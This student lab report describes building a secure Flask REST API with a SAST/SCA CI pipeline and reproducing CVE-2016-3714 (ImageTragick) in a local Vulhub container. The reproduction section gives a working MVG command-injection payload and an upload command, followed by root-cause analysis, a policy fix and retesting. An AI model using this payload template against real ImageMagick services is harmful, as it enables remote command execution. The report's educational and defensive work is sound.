

# Work 1 — Secure REST API Development with CI/CD and Real CVE Vulnerability Analysis

## Title page

| Field | Value |
|---|---|
| Work | Work 1 — Secure REST API Development with CI/CD and Real CVE Vulnerability Analysis |
| Surname and Name | Wei Lixuan |
| HDU number | 23320107 |
| Repository | <https://github.com/EggplantPig/WeiLixuan23320107-IS-Work-1> |
| Last successful pipeline | <https://github.com/EggplantPig/WeiLixuan23320107-IS-Work-1/actions/runs/40357227529> |

## 1. Purpose

The purpose of this work is to build a secure REST API, integrate SAST and SCA checks into a CI/CD pipeline, reproduce a real CVE in a controlled environment, analyse its root cause, apply a fix, and prove that the attack no longer works without breaking normal functionality.

## 2. Secure REST API

The API is implemented with Python 3.11 and Flask 3.1.3, using SQLite for storage. The full source code and setup instructions are in the repository and its `README.md`.

### 2.1 Endpoints

| Method | Path | Authentication | Description |
|---|---|---|---|
| `POST` | `/auth/login` | none | Authenticates `login` / `password` and returns a JWT |
| `GET` | `/api/data` | Bearer JWT | Returns the list of posts |
| `POST` | `/api/data` | Bearer JWT | Creates a post (third endpoint) |

### 2.2 Security measures

- **SQL injection**: every database operation uses parameterized SQL (`?` placeholders); no SQL string is built by concatenation. Tests include a login SQL-injection payload and a stored SQL-injection string that is treated as plain text.
- **XSS**: user-controlled values are escaped on output with Flask's built-in `markupsafe.escape`; the stored payload `<script>alert('xss')</script>` is returned as `&lt;script&gt;...` in both the create response and the list response.
- **Broken authentication**: a JWT (HS256) with an expiration time is issued on login; a `@token_required` decorator validates the `Authorization: Bearer` header on protected endpoints. Passwords are hashed with **bcrypt** and are never stored in plaintext.
- **Secrets**: `JWT_SECRET` and `SECRET_KEY` are read from environment variables only; no real secret is committed.
- **Tests**: 14 pytest cases cover authentication, token validation, authorization failures, validation, XSS escaping and SQL-injection behaviour.

### 2.3 API test evidence

The live API test session confirms the authentication flow and protected endpoints:

- `POST /auth/login` returns 200 with a signed JWT.
- `GET /api/data` without a token returns 401.
- `GET /api/data` with the token returns 200.
- `POST /api/data` with the token returns 201.


## 3. CI/CD pipeline

Workflow file: `.github/workflows/ci.yml`. It runs on every push to `main` and on pull requests:

1. `pytest` unit tests.
2. **SAST** with `bandit -r app`, producing `reports/bandit.json` and `reports/bandit.txt`.
3. **SCA** with `safety check -r requirements.txt`, producing `reports/safety.txt`.
4. **SCA** with the Snyk CLI (`snyk test --file=requirements.txt --package-manager=pip`), producing JSON/HTML reports as a separate artifact when the `SNYK_TOKEN` secret is configured; otherwise the job skips the scan with an explicit notice.
5. A readable scan summary published to the Actions job summary.
6. Upload of the `reports/` directory as build artifacts.

The latest pipeline run passed: <https://github.com/EggplantPig/WeiLixuan23320107-IS-Work-1/actions/runs/40357227529>


Snyk tested 9 dependencies for known issues and reported 0 issues and 0 vulnerable paths; `snyk.json` and `snyk-report.html` are in the `snyk-report` artifact.

Snyk HTML report artifact:




## 4. Real CVE: CVE-2016-3714 (ImageMagick "ImageTragick")

### 4.1 CVE description

CVE-2016-3714 is a command-injection vulnerability in ImageMagick before 6.9.3-10 (and 7.x before 7.0.1-1). Several coders, including MVG, MSL and HTTPS, pass attacker-controlled values to external delegate programs without escaping shell metacharacters, allowing remote command execution through a crafted image.

The vulnerable environment used for this work is the Vulhub example `imagemagick/CVE-2016-3714`, which runs ImageMagick 6.9.2-10 behind a PHP upload page on port 8080.

### 4.2 Reproduction steps

1. Start the vulnerable environment:

```bash
cd /home/EggplantPig/vulhub/imagemagick/CVE-2016-3714
docker compose up -d
```

2. Create the crafted MVG payload:

```text
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/oops.jpg"|touch /tmp/success")'
pop graphic-context
```

3. Upload the payload:

```bash
curl -sS -X POST http://127.0.0.1:8080/ \
  -F "file_upload=@exploit/1.gif;filename=1.gif;type=image/gif"
```

4. Verify command execution inside the container:

```bash
docker compose exec -T web ls -l /tmp/success
```

Result: the HTTP response is `200` (`Image size is: 640 x 480`) and `/tmp/success` is created inside the container with owner `root`, proving that the injected command was executed.


### 4.3 Root cause analysis

The application uploads an image and calls the ImageMagick `identify` command on it. ImageMagick selects a coder based on the file content. For the MVG format, the `fill 'url(...)'` primitive is passed to an external delegate. In the vulnerable version, the generated delegate command is:

```text
"curl" -s -k -L -o "<output>" "https:<URL>"
```

The URL is inserted into this command without escaping shell metacharacters. The payload uses a double quote to close the quoted URL and a pipe to append `touch /tmp/success`. The final quote from the delegate template is consumed by the additional quote at the end of the payload, producing a syntactically valid shell command. This is an input-validation and command-injection weakness (CWE-20) in the delegate command construction, not a flaw in the PHP upload page itself.

### 4.4 Fix

The vulnerable ImageMagick version is pinned inside the Vulhub image, so the fix applied in this work is the hardening policy recommended by the ImageTragick advisory. The policy disables the dangerous coders (`EPHEMERAL`, `URL`, `HTTPS`, `HTTP`, `FTP`, `MVG`, `MSL`, `TEXT`, `SHOW`, `WIN`, `PLT`) and is mounted read-only over the image's policy file:

```yaml
services:
  web:
    image: vulhub/imagemagick:6.9.2-10-php
    command: php -t /var/www/html -S 0.0.0.0:8080
    volumes:
      - ./index.php:/var/www/html/index.php:ro
      - ./policy.xml:/usr/etc/ImageMagick-6/policy.xml:ro
    ports:
      - "8080:8080"
```

Fix files: [`fixed/docker-compose.yml`](../cve/CVE-2016-3714/fixed/docker-compose.yml) and [`fixed/policy.xml`](../cve/CVE-2016-3714/fixed/policy.xml).

An alternative fix is upgrading ImageMagick to 6.9.3-10 or later (or 7.0.1-1 or later), where the delegate command construction escapes shell metacharacters.

### 4.5 Verification after the fix

The same payload is rejected before it reaches the delegate:

```text
HTTP=200
Image size is:

$ docker compose exec -T web ls -l /tmp/success
ls: cannot access '/tmp/success': No such file or directory

$ docker compose logs --tail=1
web-1 | identify: not authorized '/tmp/php...' @ error/constitute.c/ReadImage/412.
```

The policy is loaded and active for the MVG coder.


### 4.6 Regression test

A legitimate PNG file is still processed by the fixed environment:

```text
HTTP=200
Image size is: 1 x 1
```

No exploit marker is created. This shows that the fix blocks the malicious coder path without breaking normal image handling.


## 5. Conclusion

The API implements the three required methods with SQL-injection, XSS and broken-authentication protections, and its CI pipeline runs unit tests plus SAST (`bandit`) and SCA (`safety`) on every push. The CVE-2016-3714 reproduction demonstrates a real remote command execution in ImageMagick, explains why the delegate command construction is vulnerable, and shows that disabling the dangerous coders blocks the attack while normal image uploads continue to work.

## 6. References

- OWASP Top 10: <https://owasp.org/www-project-top-ten/>
- OWASP Cheat Sheet Series: <https://cheatsheetseries.owasp.org/>
- JWT introduction: <https://jwt.io/introduction>
- GitHub Actions: <https://docs.github.com/en/actions>
- Vulhub: <https://github.com/vulhub/vulhub>
- NVD CVE-2016-3714: <https://nvd.nist.gov/vuln/detail/CVE-2016-3714>
- ImageTragick: <https://imagetragick.com/>
- Exploit-DB 39767: <https://www.exploit-db.com/exploits/39767/>

## Appendix F. Control Questions

Short answers to the control questions for Work 1. The answers refer to the implementation and evidence in this report.

**Q1. Why is password hashing with algorithms like bcrypt preferable to using SHA-256?**

SHA-256 is a fast cryptographic hash designed for integrity checking. Its speed is a disadvantage for password storage: an attacker who obtains the hash database can test billions of guesses per second on GPUs, and an unsalted SHA-256 digest is identical for identical passwords, which enables precomputed rainbow tables. bcrypt is deliberately slow and adaptive: it incorporates a per-password random salt and a tunable cost factor, so each guess is expensive and precomputed tables do not work. The salt also hides duplicate passwords. SHA-256 is appropriate for file integrity or signatures, not for storing user passwords. In Work 1, passwords are stored with bcrypt.hashpw and verified with bcrypt.checkpw; the database never contains plaintext. One practical detail is bcrypt's 72-byte input limit: longer passwords should be pre-hashed or handled by a modern password-hashing scheme. The demo passwords are short and the cost factor is the library default.

**Q2. What is the main difference between the SAST and DAST approaches to security testing?**

SAST (Static Application Security Testing) analyses source code or bytecode without executing the application. It is white-box, can run early in development, and finds dangerous code patterns and data flows (for example, string-concatenated SQL or unsafe command execution). It cannot see runtime configuration, deployed dependencies or access-control behaviour, and it often produces false positives. DAST (Dynamic Application Security Testing) tests a running application from the outside, usually over HTTP. It is black-box, exercises real requests, and can find runtime issues such as authentication and authorisation flaws, misconfiguration, injection that only appears at runtime, and server behaviour; it cannot inspect source code and may miss code paths that are not reachable from the tested requests. Work 1 uses SAST with bandit; DAST with OWASP ZAP is used in Work 2. SCA (software composition analysis) is a third category: it checks dependencies rather than first-party code.

**Q3. Describe the mechanism of how a JWT token works. What information does it contain and how does the server verify its authenticity?**

A JWT has three base64url-encoded parts separated by dots: header.payload.signature. The header normally declares the algorithm and type (for example HS256 and JWT). The payload contains claims such as sub (subject/user id), username, iat (issued at) and exp (expiry). The signature is computed over base64url(header) + '.' + base64url(payload) using a server-side secret (HS256 uses HMAC-SHA256). The server does not store a session: on each request it reads the Bearer token, recomputes the signature with its secret and compares it, then checks exp and any other required claims. If an attacker changes the payload, the signature no longer matches. The payload is only encoded and signed, not encrypted, so it is readable by the client and must not contain secrets. A stolen token remains usable until it expires unless the application adds revocation, short lifetimes or refresh-token rotation. Work 1 issues an HS256 token with sub, username, iat and exp (60 minutes), stores JWT_SECRET only in the environment, and rejects missing, invalid or expired tokens with 401.

**Q4. What risks arise if you do not audit third-party libraries (dependencies) in a project?**

Modern applications mostly consist of third-party and transitive dependencies. If those are not audited, a known CVE in a library can be exploited without any bug in the first-party code; a malicious or typosquatted package can execute code during install or at runtime; an abandoned package may never receive security fixes. The result can be remote code execution, data disclosure, authentication bypass, supply chain compromise, licence/compliance problems, and a very hard incident-response process because the vulnerable component is hidden deep in the dependency tree. Without an inventory (SBOM) it is also difficult to answer 'are we affected?' when a new CVE is published. SCA tools such as Snyk and safety compare the dependency versions against vulnerability databases and report vulnerable paths. Practical controls are pinned/locked dependencies, regular SCA in CI, timely updates, review of new packages, and monitoring advisories. In Work 1, Snyk scanned 9 dependencies and reported 0 known vulnerabilities.

**Q5. What advantages does using Docker and Vulhub provide for studying cybersecurity compared to installing vulnerable software directly on your machine?**

Docker gives an isolated, disposable environment: the vulnerable service runs in a container with its own filesystem and network namespace, so experiments do not pollute the host and can be reset by recreating the container. The image pins the exact vulnerable version, which makes reproduction deterministic and repeatable. Multiple environments can run side by side without dependency conflicts, and the vulnerable and fixed configurations can be compared using the same compose file and payload. Vulhub provides ready-made compose configurations for known CVEs, which saves setup time and documents the vulnerable version and entry point. The main limitations are that container isolation is not an absolute security boundary (privileged containers, mounted Docker socket or host directories can weaken it), and the lab must remain local and isolated. Docker is therefore a safe training sandbox, not a justification for exposing vulnerable services to a network.

**Q6. Describe the difference between a vulnerability and an exploit. What were you reproducing in this work?**

A vulnerability is a weakness in software or configuration: a flaw that can be abused, such as CVE-2016-3714, where ImageMagick constructs a delegate command from an untrusted URL without escaping shell metacharacters. An exploit is the concrete method, input or code that takes advantage of the vulnerability, for example a crafted MVG file whose fill 'url(...)' value closes the quoted URL with a double quote and adds |touch /tmp/success, uploaded to the PHP page. The vulnerability is the underlying flaw; the exploit is the proof that the flaw is reachable and dangerous. In Work 1 the target was the ImageMagick vulnerability in a Vulhub container: the exploit created /tmp/success, the policy fix blocked the same exploit, and a normal PNG still worked.

**Q7. Why, after applying a fix (patch), is it critically important to check that the main functionality of the application has not been damaged (regression testing)?**

A security fix can be too broad or can change shared behaviour. For example, disabling dangerous ImageMagick coders blocks the exploit, but an overly strict policy could also block legitimate image formats and break uploads, thumbnails or other business functions. Regression testing provides the positive counterpart to the negative security test: the attack must fail, and normal use must still succeed. It catches collateral damage, proves the fix is production-safe, protects availability and data integrity, and gives release confidence. In Work 1, after the policy fix the same malicious MVG no longer created /tmp/success, while a normal 1x1 PNG still returned 'Image size is: 1 x 1'. Both results are required: attack blocked and normal function preserved.

**Q8. How does knowledge and the ability to reproduce known vulnerabilities (CVEs) help in the work of a security specialist (for example, a pentester or SOC analyst)?**

Reproducing a CVE turns a database entry into concrete knowledge of the attack path, prerequisites, observable effects and fix. A pentester can build a reliable proof of concept, distinguish a real finding from a scanner false positive, assess exploitability and business impact, prioritise remediation and retest the patch. A SOC analyst can recognise the relevant telemetry and log patterns (for example, unexpected child processes, outbound requests or 'not authorized' messages), write detection rules, triage alerts and support incident response. Developers benefit from understanding root causes and secure-coding patterns. The same knowledge also supports threat modelling and risk communication. It must be used ethically and legally: only in isolated, authorised labs such as the local Vulhub container used here, never against third-party systems without permission.
